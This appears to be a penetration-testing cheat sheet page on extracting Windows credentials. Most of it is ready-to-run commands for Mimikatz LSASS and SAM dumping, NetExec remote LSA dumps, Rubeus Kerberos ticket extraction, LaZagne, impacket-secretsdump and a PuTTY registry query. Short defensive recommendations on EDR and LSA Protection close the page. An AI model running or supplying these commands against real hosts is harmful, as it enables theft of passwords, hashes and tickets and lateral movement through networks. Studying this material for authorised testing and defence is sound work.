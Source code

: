 # Credentials Extraction
---

## Vulnerability

In modern versions of Windows, password hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space. An attacker who could access to these hashes could crack them to obtain the cleartext password or reuse them to lateralize his attack or to elevate his privileges.

## Prerequisites

- SYSTEM or local administrator rights on the target host.

## Exploit

### LSASS credentials

To dump LSASS credentials, use [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# Start Mimikatz in a administrator PowerShell.
.\Mimikatz.exe

# Engage SeDebugPrivlege, to interact with a process owned by another account.
privilege::debug

# Elevate first.
token::elevate

# Dump passwords of all logged on users.
sekurlsa::logonpasswords

# Dump NTLM hashes from SAM.
lsadump::sam

# Dump Kerberos tickets stored in-memory.
sekurlsa::tickets

# Dump Kerberos encryption keys of logged on users.
sekurlsa::ekeys

# Dump Domain Cached Credentials from HKLM\SECURITY.
lsadump::cache
```

It’s also possible to do it remotely with [NetExec](https://github.com/Pennyw0rth/NetExec/).

```bash
nxc smb $target -u $username -p $password --lsa
nxc smb $target -u $username -p $password -M nanodump
nxc smb $target -u $username -p $password -M mimikatz
nxc smb $target -u $username -p $password -M lsassy
```

### Kerberos tickets

If you prefer focusing on Kerberos tickets, [Rubeus](https://github.com/GhostPack/Rubeus) is your friend.

```powershell
# List all Kerberos tickets in the current session (all sessions if elevated).
.\Rubeus.exe triage

# Dump Kerberos tickets used for a service for a Locally Unique Identifier.
.\Rubeus.exe dump /luid:$luid /service:$service /nowrap
```

### Applications

You can use [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from many Windows applications like browsers or WiFi.

```bash
laZagne.exe all
```

### SAM database

You can use `SAM` and `SYSTEM` files from your target to extract user hashes. These files are by default located at following **protected** paths:
* C:\Windows\System32\Config\SAM.
* C:\Windows\System32\Config\SYSTEM.

If you manage to retrieve these two files on your Kali, extract hashes like this.

```bash
impacket-secretsdump LOCAL -sam SAM -system SYSTEM
```

### Putty

If [PuTTY is installed](/windows/enumeration/#installed-softwares) on the target host, you can extract cached credentials by querying following registry key.

```powershell
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

## Recommendations

- [ ] Enforce EDR on Windows hosts to prevent the usage of malwares to extract credentials.
- [ ] Enable additional LSA Protection. The LSA includes the LSASS process. By setting a registry key, Windows prevents reading memory from this process.